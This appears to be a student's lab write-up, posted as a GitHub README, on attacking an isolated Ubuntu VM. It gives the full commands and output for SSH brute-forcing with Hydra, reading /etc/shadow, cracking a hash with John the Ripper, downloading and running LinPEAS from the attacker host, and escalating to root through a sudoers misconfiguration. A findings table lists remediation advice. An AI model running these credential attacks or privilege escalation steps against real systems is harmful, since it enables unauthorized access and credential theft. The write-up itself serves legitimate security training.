





# Week 5 — Password Attacks & Privilege Escalation

## 🎯 Objective
Practice credential-based attacks (online brute-forcing and offline hash
cracking) and Linux privilege escalation techniques against a controlled lab
target.

## 🧪 Lab Setup
- **Attacker:** Kali Linux — `192.168.219.128`
- **Target:** Ubuntu Server — `192.168.219.129`
- **Network:** VMware NAT (isolated)
- **Target service:** OpenSSH server enabled for testing

---

## Part 1 — Password Attack (Online Brute Force via Hydra)

**Tool:** Hydra
**Goal:** Brute-force SSH credentials on the target.

\`\`\`bash
hydra -l nawal -P ~/custom.txt ssh://192.168.219.129
\`\`\`

**Result:**
\`\`\`
[22][ssh] host: 192.168.219.129   login: nawal   password: cyber@2.0
1 of 1 target successfully completed, 1 valid password found
\`\`\`

**Finding:** SSH account `nawal` was protected by a weak, easily guessable
password, allowing successful brute-force in seconds using a small custom
wordlist.

---

## Part 2 — Hash Extraction

Logged into the target via the cracked credentials and extracted the
password hash from the shadow file.

\`\`\`bash
ssh nawal@192.168.219.129
sudo cat /etc/shadow | grep nawal
\`\`\`

Hash securely transferred back to the attacker machine via `scp` to avoid
transcription errors:

\`\`\`bash
scp nawal@192.168.219.129:~/myhash.txt ~/hash.txt
\`\`\`

---

## Part 3 — Offline Password Cracking (John the Ripper)

**Tool:** John the Ripper
**Goal:** Crack the extracted hash offline to confirm the password.

\`\`\`bash
john --wordlist=~/mypass.txt ~/hash.txt
john --show ~/hash.txt
\`\`\`

**Result:**
\`\`\`
cyber@2.0    (nawal)
1 password hash cracked, 0 left
\`\`\`

**Finding:** The SSH password was successfully cracked offline, confirming
the account uses a weak, low-entropy password vulnerable to both online and
offline attacks.

---

## Part 4 — Linux Enumeration

Manual enumeration performed after gaining shell access:

\`\`\`bash
whoami
id
sudo -l
find / -perm -4000 -type f 2>/dev/null
\`\`\`

Automated enumeration performed using **LinPEAS**:

\`\`\`bash
wget http://192.168.219.128:80/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh > linpeas_output.txt
less -R linpeas_output.txt
\`\`\`

**Notable findings during enumeration:**
- `pkexec` binary has the SUID bit set (version 127 — patched against
  CVE-2021-4034 / PwnKit, confirmed not exploitable on this version)
- User `nawal` has **unrestricted sudo privileges**

---

## Part 5 — Privilege Escalation

**Vulnerability:** Sudoers misconfiguration.

\`\`\`
User nawal may run the following commands on nawal-VMware-Virtual-Platform:
    (ALL : ALL) ALL
\`\`\`

**Exploitation:**
\`\`\`bash
sudo su
whoami   # root
id       # uid=0(root) gid=0(root) groups=0(root)
\`\`\`

**Finding:** The low-privileged user `nawal` was configured with blanket
`ALL:ALL ALL` sudo rights, allowing immediate and trivial escalation to root
with a single command.

---

## 📋 Summary of Findings

| # | Finding | Severity | Recommendation |
|---|---|---|---|
| 1 | Weak SSH password, brute-forceable via Hydra | High | Enforce strong password policy, use key-based SSH auth, enable fail2ban/rate limiting |
| 2 | Password hash crackable offline (weak password reused) | High | Enforce password complexity requirements |
| 3 | Sudoers misconfiguration — unrestricted `ALL:ALL` access | Critical | Apply principle of least privilege; grant only specific commands needed via sudoers |

## 🧰 Tools Used
- Hydra
- John the Ripper
- LinPEAS
- SSH / SCP

## ✅ Skills Demonstrated
- Online credential brute-forcing
- Offline hash cracking
- Manual and automated Linux privilege escalation enumeration
- Exploiting misconfigurations for privilege escalation
- Professional documentation of findings
